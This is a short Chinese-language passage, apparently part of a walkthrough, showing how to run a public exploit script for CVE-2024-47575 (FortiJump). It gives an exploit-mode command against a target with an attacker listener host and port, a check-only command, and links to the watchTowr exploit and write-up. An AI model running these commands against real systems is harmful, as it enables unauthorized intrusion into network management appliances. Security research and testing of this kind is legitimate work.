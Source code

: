 然后，执行我们的exp：

```
python3 CVE-2024-47575.py --target 192.168.1.110 --lhost 192.168.1.53 --lport 80 --action exploit
```

要单独检查漏洞，请使用以下选项：

```
python3 CVE-2024-47575.py --target 192.168.1.110 --action check
```

## 漏洞来源

- https://github.com/watchtowrlabs/Fortijump-Exploit-CVE-2024-47575
- https://labs.watchtowr.com/hop-skip-fortijump-fortijumphigher-cve-2024-23113-cve-2024-47575/